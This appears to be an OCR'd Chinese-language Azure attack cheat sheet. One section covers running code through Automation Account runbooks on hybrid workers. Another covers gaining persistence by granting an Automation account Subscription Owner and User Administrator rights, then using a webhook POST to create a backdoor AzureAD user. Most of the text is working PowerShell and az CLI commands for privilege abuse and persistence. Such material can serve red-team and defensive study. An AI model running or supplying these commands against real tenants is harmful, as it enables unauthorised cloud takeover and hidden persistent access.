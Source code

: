  #### 创建Runbook
	检查自动化用户权限
	az extension add --upgrade -n automation
	az automation account list # if it doesn't return anything the user is not a part of an Automation group
	az ad signed-in-user list-owned-objects

	如果用户不属于“自动化”组
	将他添加到自定义组，例如：“自动化管理员”
	Add-AzureADGroupMember -ObjectId <OBJID> -RefObjectId <REFOBJID> -Verbose

	获取自动化账户上用户的角色
	Contributor 或更高级别 = 可以创建和执行 Runbook
	Get-AzRoleAssignment -Scope /subscriptions/<ID>/resourceGroups/<RG-NAME>/providers/Microsoft.Automation/automationAccounts/<AUTOMATION-ACCOUNT>

	列出混合工作人员
	Get-AzAutomationHybridWorkerGroup -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME>

	创建一个Powershell Runbook
	PS C:\Tools> Import-AzAutomationRunbook -Name <RUNBOOK-NAME> -Path C:\Tools\username.ps1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Type PowerShell -Force -Verbose

	发布Runbook
	Publish-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose

	启动Runbook
	Start-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -RunOn Workergroup1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose
 #### 通过自动化帐户持久化
	创建一个新的自动化帐户
	“创建 Azure 运行方式帐户”：是
	导入一个新的 Runbook，创建一个拥有订阅所有者权限的 AzureAD 用户*
	此博客的示例运行手册位于此处 – https://github.com/NetSPI/MicroBurst
	发布运行手册
	将 Webhook 添加到 Runbook
	将 AzureAD 模块添加到自动化帐户
	更新 Azure 自动化模块
	为自动化帐户分配“用户管理员”和“订阅所有者”权限
	最终失去访问权限……
	使用 post 请求触发 webhook 以创建新用户
	$uri = "https://s15events.azure-automation.net/webhooks?token=h6[REDACTED]%3d"
	$AccountInfo  = @(@{RequestBody=@{Username="BackdoorUsername";Password="BackdoorPassword"}})
	$body = ConvertTo-Json -InputObject $AccountInfo
	$response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
